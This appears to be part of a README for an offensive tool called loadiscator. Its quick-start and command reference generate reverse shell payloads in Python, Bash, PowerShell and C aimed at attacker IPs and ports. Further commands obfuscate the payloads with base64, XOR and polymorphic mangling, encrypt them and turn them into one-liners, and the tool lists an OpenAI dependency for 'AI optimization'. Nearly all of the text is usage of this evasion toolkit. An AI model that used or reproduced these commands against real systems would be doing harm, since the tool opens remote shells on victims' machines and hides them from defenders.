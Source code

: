 - [typer](https://typer.tiangolo.com/) - CLI framework
- [jinja2](https://palletsprojects.com/p/jinja/) - Templating
- [cryptography](https://cryptography.io/) - Encryption
- [pycryptodome](https://www.pycryptodome.org/) - Crypto primitives
- [rich](https://rich.readthedocs.io/) - Terminal formatting
- [openai](https://platform.openai.com/docs/api-reference) - AI optimization
- [requests](https://docs.python-requests.org/) - HTTP requests

---

## Quick Start

### Generate a Python Reverse Shell
```bash
python -m loadiscator.cli generate python 10.10.10.10 4444 -o reverse.py
```

### Obfuscate the Payload (Polymorphic)
```bash
python -m loadiscator.cli obfuscate polymorphic --file reverse.py -o poly_reverse.py
```

### Encrypt the Payload
```bash
python -m loadiscator.cli encrypt --file poly_reverse.py --key "S3cr3tK3y123" -o encrypted.py
```

### Generate a One-Liner
```bash
python -m loadiscator.cli oneliner --file encrypted.py --lang python
```

---

## Command-Line Reference

### 1. Payload Generation
```
python -m loadiscator.cli generate [LANG] [IP] [PORT] -o [OUTPUT]
```
- LANG: python, bash, powershell, c
- Example: `python -m loadiscator.cli generate bash 192.168.1.5 9001 -o rev.sh`

### 2. Obfuscation
```
python -m loadiscator.cli obfuscate [TYPE] --file [INPUT] -o [OUTPUT] [--key KEY]
```
- TYPE: base64, xor, stringmangle, polymorphic
- Example: `python -m loadiscator.cli obfuscate xor --file rev.sh -o rev_xor.sh --key secret`

### 3. Encryption
```
python -m loadifscator.cli encrypt --file [INPUT] --key [KEY] -o [OUTPUT]
```
